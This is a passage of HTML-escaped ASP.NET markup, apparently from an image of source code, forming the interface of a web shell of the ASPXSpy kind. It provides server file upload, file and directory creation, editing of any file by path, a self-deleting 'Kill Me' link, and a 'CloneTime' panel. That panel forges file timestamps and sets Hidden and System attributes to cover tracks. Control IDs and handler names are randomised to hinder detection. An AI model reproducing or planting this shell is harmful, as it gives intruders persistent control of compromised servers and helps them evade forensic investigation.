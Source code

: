 &lt;div style="float:right;"&gt;&lt;input id="Fhq" class="input" runat="server" type="file" style=" height:22px"/&gt;
&lt;asp:Button ID="RvPp" CssClass="bt" runat="server" Text="Upload" OnClick="lbjLD"/&gt;&lt;/div&gt;&lt;asp:LinkButton ID="OLJFp" runat="server" Text="WebRoot" OnClick="mcCY"&gt;&lt;/asp:LinkButton&gt; | &lt;a href="#" id="Bin_Button_CreateDir" runat="server"&gt;Create Directory&lt;/a&gt; | &lt;a href="#" id="Bin_Button_CreateFile" runat="server"&gt;Create File&lt;/a&gt;
 | &lt;span id="Bin_Span_Drv" runat="server"&gt;&lt;/span&gt;&lt;a href="#" id="Bin_Button_KillMe" runat="server" style="color:Red"&gt;Kill Me&lt;/a&gt;
&lt;/td&gt;&lt;/tr&gt;
&lt;asp:Table ID="UGzP" runat="server" Width="100%" CellSpacing="0" &gt;
&lt;asp:TableRow CssClass="head"&gt;&lt;asp:TableCell&gt;&nbsp;&lt;/asp:TableCell&gt;&lt;asp:TableCell&gt;Filename&lt;/asp:TableCell&gt;&lt;asp:TableCell Width="25%"&gt;Last modified&lt;/asp:TableCell&gt;&lt;asp:TableCell Width="15%"&gt;Size&lt;/asp:TableCell&gt;&lt;asp:TableCell Width="25%"&gt;Action&lt;/asp:TableCell&gt;&lt;/asp:TableRow&gt;
&lt;/asp:Table&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;%--FileEdit--%&gt;
&lt;div id="vrFA" runat="server"&gt;
&lt;p&gt;Current File(import new file name and new file)&lt;br/&gt;
&lt;input class="input" id="Sqon" type="text" size="100" runat="server"/&gt; &lt;asp:DropDownList ID="NdCX" runat="server" CssClass="list" AutoPostBack="true" OnSelectedIndexChanged="zOVO"&gt;&lt;asp:ListItem&gt;Default&lt;/asp:ListItem&gt;&lt;asp:ListItem&gt;UTF-8&lt;/asp:ListItem&gt;&lt;/asp:DropDownList&gt;
&lt;/p&gt;
&lt;p&gt;File Content&lt;br/&gt;
&lt;textarea id="Xgvv" runat="server" class="area" cols="100" rows="25" enableviewstate="true" &gt;&lt;/textarea&gt;
&lt;/p&gt;
&lt;p&gt;&lt;asp:Button ID="JJjbW" runat="server" Text="Submit" CssClass="bt" OnClick="DGCoW"/&gt; &lt;asp:Button ID="iCNu" runat="server" Text="Back" CssClass="bt" OnClick="IkkO"/&gt;&lt;/p&gt;
&lt;/div&gt;
&lt;%--CloneTime--%&gt;
&lt;div id="zRyG" runat="server" enableviewstate="false" visible="false"&gt;
&lt;p&gt;Alter file&lt;br/&gt;&lt;input class="input" id="QiFB" type="text" size="120" runat="server"/&gt;&lt;/p&gt;
&lt;p&gt;Reference file(fullpath)&lt;br/&gt;&lt;input class="input" id="lICp" type="text" size="120" runat="server"/&gt;&lt;/p&gt;
&lt;p&gt;&lt;asp:Button ID="JEaxV" runat="server" Text="Submit" CssClass="bt" OnClick="XXrLw"/&gt;&lt;/p&gt;
&lt;h2&gt;Set last modified &raquo;&lt;/h2&gt;
&lt;p&gt;Current file(fullpath)&lt;br/&gt;&lt;input class="input" id="pWVL" type="text" size="120" runat="server"/&gt;&lt;/p&gt;
&lt;p&gt;
&lt;asp:CheckBox ID="ZhWSK" runat="server" Text="ReadOnly" EnableViewState="False"/&gt;
&nbsp;
&lt;asp:CheckBox ID="SsR" runat="server" Text="System" EnableViewState="False"/&gt;
&nbsp;
&lt;asp:CheckBox ID="ccB" runat="server" Text="Hidden" EnableViewState="False"/&gt;
&nbsp;
&lt;asp:CheckBox ID="fbyZ" runat="server" Text="Archive" EnableViewState="False"/&gt;
&lt;/p&gt;
&lt;p&gt;
CreationTime :
&lt;input class="input" id="yUqx" type="text" runat="server"/&gt;
LastWriteTime :
&lt;input class="input" id="uYjw" type="text" runat="server"/&gt;
LastAccessTime :
&lt;input class="input" id="aLsn" type="text" runat="server"/&gt;
&lt;/p&gt;
&lt;p&gt;
&lt;asp:Button ID="kOG" CssClass="bt" runat="server" Text="Submit" OnClick="tIykC"/&gt;
&lt;/p&gt;
&lt;/div&gt;